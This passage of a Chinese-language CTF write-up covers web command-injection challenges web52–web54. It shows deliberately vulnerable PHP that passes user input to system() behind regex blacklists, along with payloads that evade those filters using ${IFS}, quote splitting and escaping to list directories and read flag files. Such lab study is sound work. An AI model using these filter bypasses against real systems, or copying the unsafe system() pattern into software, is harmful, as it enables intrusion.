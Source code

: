 `tac`被过滤了，替换成`nl`，`payload：/?c=nl<fl''ag.php||ls`

## web52

```php
if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c." >/dev/null 2>&1");
    }
```

`<`也被过滤了，但它又把`$`放出来了，所以`/?c=nl${IFS}fl''ag.php||ls`，但进去发现没有flag，说明flag不在`flag.php`，于是`/?c=ls${IFS}/||ls`，发现根目录下有一个`flag`文件，读取`/?c=nl${IFS}/fl''ag||ls`

## web53

```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|wget|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
        echo($c);
        $d = system($c);
        echo "<br>".$d;
    }else{
        echo 'no';
    }
}else{
    highlight_file(__FILE__);
}
```

`payload：/?c=nl${IFS}fl\ag.php`

## web54

```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\</i", $c)){
//“.*c.*a.*t.*”匹配有cat的字符串，只要字符串有这三个字母且顺序不变，例如“XcXXaXXtX”
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
```
